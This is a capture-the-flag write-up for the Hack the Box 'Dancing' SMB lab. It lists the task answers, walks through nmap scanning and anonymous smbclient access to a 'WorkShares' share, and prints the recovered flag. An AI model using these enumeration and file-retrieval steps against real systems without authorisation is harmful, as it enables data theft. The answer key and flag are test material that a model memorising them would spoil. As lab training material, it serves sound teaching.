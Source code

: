 # Dancing
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Dancing
* Topic: SMB
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---

## Tasks
1. What does the 3-letter acronym SMB stand for? 
 - **Server Message Block**
2. What port does SMB use to operate at? 
- **445**
3. What network communication model does SMB use, architecturally speaking? 
- **client-server model**
4. What is the service name for port 445 that came up in our nmap scan? 
- **microsoft-ds**
5. What is the tool we use to connect to SMB shares from our Linux distribution? 
- **smbclient**
6. What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 
- **-L**
7. What is the name of the share we are able to access in the end?
- **WorkShares**
8. What is the command we can use within the SMB shell to download the files we find? 
- **get**

---
## Solution:
First, we need to scan the target with `nmap`.

Command:

`nmap -n -sC -sV 10.129.229.124`

`-n`: No DNS look up (Good [OPSEC](https://en.wikipedia.org/wiki/Operations_security)).

`-sC`: Run scripts during scan.

`-sV`: Try to detect the version of running services.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -sV 10.129.229.124
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-12 07:26 EDT
Nmap scan report for 10.129.229.124
Host is up (0.078s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds
```

It's running SMB on port 445. We can use `smbclient` to list te shares. 

Command:

`smbclient -L 10.129.229.124`

`-L`: Get a list of shares available on a host.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient -L 10.129.229.124
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.229.124 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Awesome, there is a share for us to poke around in. To access it, we need to follow a special syntax.

Command:

 `smbclient \\\\10.129.229.124\\WorkShares`
 
`\\\\`: Equals to "\\\\" when interpreted, means root of directory.

`\\`: Equals to "\\" when interpreted, means new directory level.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient \\\\10.129.229.124\\WorkShares
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
```

`ls` to show the contents of the share.

```
smb: \> ls
  .                                   D        0  Tue Apr 12 11:37:11 2022
  ..                                  D        0  Tue Apr 12 11:37:11 2022
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1751219 blocks available
```

`cd` to change directory into the James.P folder. 

```
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1751219 blocks available
```

We can see the flag. We can use `get` to download the file via SMB.

Type `exit` to gracefully close the connection afterwards.

```
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\> exit
```

Now that we have the file, we just need to `cat` it.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664 
```

**Flag:** `5f61c10dffbc77a704d76016a22f1664`

---
**Tags:** [[Hack The Box]]
